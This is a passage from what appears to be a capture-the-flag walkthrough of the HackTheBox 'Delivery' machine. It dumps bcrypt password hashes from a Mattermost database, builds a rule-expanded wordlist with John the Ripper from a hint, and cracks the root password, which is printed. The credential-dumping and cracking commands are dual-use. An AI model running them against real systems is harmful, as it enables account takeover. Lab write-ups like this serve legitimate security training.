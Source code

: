 ```
MariaDB [mattermost]> select Username,Password from Users;
+----------------------------------+--------------------------------------------------------------+
| Username                         | Password                                                     |
+----------------------------------+--------------------------------------------------------------+
| surveybot                        |                                                              |
| c3ecacacc7b94f909d04dbfd308a9b93 | $2a$10$u5815SIBe2Fq1FZlv9S8I.VjU3zeSPBrIEg9wvpiLaS7ImuiItEiK |
| 5b785171bfb34762a933e127630c4860 | $2a$10$3m0quqyvCE8Z/R1gFcCOWO6tEj6FtqtBn8fRAXQXmaKmg.HDGpS/G |
| root                             | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO |
| oblivion                         | $2a$10$UvfjP8V4RcnHlAUmfG71LuWZtizdorPgwUeDOCceslZpEDQZ8txUu |
| ff0a21fc6fc2488195e16ea854c963ee | $2a$10$RnJsISTLc9W3iUcUggl1KOG9vqADED24CQcQ8zvUm1Ir9pxS.Pduq |
| channelexport                    |                                                              |
| 9ecfb4be145d47fda0724f697f35ffaf | $2a$10$s.cLPSjAVgawGOJwB7vrqenPg2lrDtOECRtjwWahOzHfq1CoFyFqm |
+----------------------------------+--------------------------------------------------------------+
8 rows in set (0.000 sec)
```

Root hash:

```
root:$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO
```

According to root Mattermost note, we need to build a wordlist starting with string "PleaseSubscribe!".

```
root@kali:/opt/htb/Delivery# cat words
PleaseSubscribe!



john --wordlist=words --stdout --rules=ALL > newwordlist
```

Now we can crack root password:

```
john --wordlist=./newwordlist 24_root_hashes
```

Password: `PleaseSubscribe!21`






